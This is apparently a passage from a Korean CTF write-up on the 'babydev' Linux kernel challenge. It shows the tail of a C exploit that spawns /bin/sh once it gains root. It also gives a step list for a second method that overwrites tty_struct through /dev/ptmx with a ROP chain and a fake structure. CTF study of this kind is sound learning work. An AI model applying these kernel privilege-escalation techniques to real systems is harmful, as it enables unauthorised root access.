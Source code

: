 <span style="color:#a71d5d">=</span>&nbsp;{<span style="color:#0099cc">0</span>,};</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;write(fd2,zero,<span style="color:#0099cc">32</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sleep(<span style="color:#0099cc">1</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">if</span>(getuid()&nbsp;<span style="color:#ff3399"></span><span style="color:#a71d5d">=</span><span style="color:#ff3399"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#0099cc">0</span>){</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system(<span style="color:#63a35c">"/bin/sh"</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<span style="color:#a71d5d">else</span>{</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#066de2">printf</span>(<span style="color:#63a35c">"fail..\n"</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit(<span style="color:#0099cc">0</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<span style="color:#a71d5d">else</span>{</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;wait(<span style="color:#0099cc">0</span>);</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</div><div style="padding:0 6px; white-space:pre; line-height:130%">}</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>



#### Using tty_struct

__how can exploit?__

유저 공간의 레지스터를 저장

rop와 가짜 tty struct 구성

babydev 두개 오픈

736byte의 heap 메모리 저장

메모리 해제

/dev/ptmx 파일을 열어 파일 디스크립트 정보를 저장

tty_struct를 덮는다

get shell

